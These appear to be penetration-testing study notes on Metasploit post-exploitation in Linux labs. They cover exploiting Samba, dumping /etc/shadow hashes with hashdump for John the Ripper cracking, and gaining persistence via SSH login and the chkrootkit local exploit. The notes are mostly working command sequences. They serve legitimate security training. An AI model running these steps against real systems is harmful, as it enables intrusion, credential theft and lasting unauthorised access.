* We can dump Linux user hashes with the hashdump post exploitation module.
* Linux password hashes are stored in the /etc/shadow file and can only be accessed by the root user or a user with root privileges.
* The hashdump module can be used to dump the user account hashes from the `/etc/shadow` file and can also be used to unshadow the hashes for password cracking with **John The Ripper**.

```bash
kali@kali> service postgresql start && msfconsole

msf6> db_nmap -sV 192.197.141.3
msf6> use exploit/linux/samba/is_known_pipename
msf6> run
meterpreter> sysinfo
# CTRL+Z

msf6> sessions -u 1
msf6> sessions 2

msf6> use post/linux/gather/hashdump
msf6> set session 2
msf6> run
msf6> loot
```

#### Establishing persistence

* Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.
* Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.
* The persistence techniques we can utilize will depend on the target configuration.
* We can utilize various post exploitation persistence modules to ensure that we always have aaccess to the target system.

```bash
kali@kali> service postgresql start && msfconsole

msf6> setg rhosts 192.163.200.3
msf6> use auxiliary/scanner/ssh/ssh_login
msf6> set username jackie
msf6> set password password
msf6> run
# CTRL+Z

msf6> sessions -u 1
msf6> use exploit/unix/local/chkrootkit
msf6> set session 2
msf6> set chkrootkit /bin/chkrootkit
msf6> set lhost 192.163.200.2
msf6> run
# CTRL+Z

msf6> sessions -u 3
msf6> sessions 4
```
